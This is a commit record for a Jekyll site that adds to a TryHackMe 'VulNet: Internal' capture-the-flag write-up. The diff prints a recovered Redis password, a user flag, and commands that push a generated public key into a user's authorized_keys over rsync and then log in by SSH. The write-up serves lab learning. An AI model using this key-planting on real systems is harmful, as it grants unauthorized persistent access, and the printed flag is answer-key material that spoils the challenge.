

Before and after one commit to bitcriminals/bitcriminals.github.io, a Jekyll site: the page built from writeups/_tryhackme/vulnet-internal.md, in a window 1280 px wide and 1400 px high, scrolled down 2179 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 2809 px from its top, so only the background shows below that.

Commit message:
adding to vulnet

````diff
--- a/writeups/_tryhackme/vulnet-internal.md
+++ b/writeups/_tryhackme/vulnet-internal.md
@@ -36,3 +36,23 @@ After, that we find a redis directory in the mounted dir.Within, the redis dir w
 Within the redis.conf file we found a password
 ***B65Hx562F@ggAZ@F***
 which is most probably the password for the redis port.
+
+Now we connected to rsync and got the user flag in the sys-internal User's directory
+
+![](/images/rsync.png)
+
+```User flag : THM{da7c20696831f253e0afaca8b83c07ab}```
+
+Now we created an id_rsa key and using rsync transferred this key to authorised keys folder in the sys-internal User's directory
+The commands are:
+
+```py
+ssh-keygen -f ./id_rsa
+rsync -ahv ./id_rsa.pub rsync://rsync-connect@<ip>/files/sys-internal/.ssh/authorized_keys
+ssh -i ./id_rsa sys-internal@10.10.53.133
+![](/images/ssh.png)
+```
+
+And then we connected using ssh to the machine..
+
+![](/images/ssh2.png)
````
Also changed, not shown: images/rsync.png (added), images/ssh.png (added), images/ssh2.png (added).
